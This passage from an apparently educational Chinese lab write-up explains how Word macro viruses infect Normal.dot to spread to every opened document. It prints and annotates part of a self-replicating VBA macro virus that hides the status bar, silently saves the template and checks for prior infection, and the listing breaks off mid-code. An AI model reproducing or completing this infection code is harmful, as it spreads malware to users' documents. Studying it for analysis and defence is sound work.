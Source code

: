 4）执行恶意代码。

```visual basic
MsgBox"MicroVirus by Content Security Lab"
```

2.5此时当前word文档就含有宏病毒，只要下次打开这个word文档，就会执行以上代码，并将自身复制到Normal.dot（word文档的公共模板）和当前文档的ThisDocument中，同时改变函数名（模板中为Document*Close，当前文档为Document*Open），此时所有的word文档打开和关闭时，都将运行以上的病毒代码，可以加入适当的恶意代码，影响word的正常使用，本例中只是简单的跳出一个提示框。将当前文档关闭再重新打开，弹出一个提示框，且屏蔽了状态栏

### 宏病毒分析2

找到一个类似于给出病毒的实现并进行分析

```visual basic
'moonlight

Dim nm(4)

Sub Smallboy_Virus()

'屏蔽状态栏，以免显示宏病毒执行状态；修改公用模版是自动保存且不提示；自动执行病毒模板

On Error Resume Next

Application.DisplayStatusBar = False

'屏蔽状态栏

Options.SaveNormalPrompt = False

'修改公用模板时在后台自动保存，不给任何提示

Ourcode = ThisDocument.VBProject.VBComponents(1).CodeModule.Lines(1,
100)

'获取当前文档代码对象

Set host = NormalTemplate.VBProject.VBComponents(1).CodeModule

'获取共用模板的代码对象

'

'获取当前文档对象代码和共用模板对象代码

If ThisDocument = NormalTemplate Then

'判断当前文件是否等于公用模板对象

Set host = ActiveDocument.VBProject.VBComponents(1).CodeModule

'如果是，则获取当前活动文档的代码对象

End If

'

'设立检查当前文档是否被感染，如果没有就自动执行复制宏病毒到模板并修改函数名操作

With host

If .Lines(1.1) <> "Smallboy_Virus()" Then

'判断当前文档是否感染病毒

```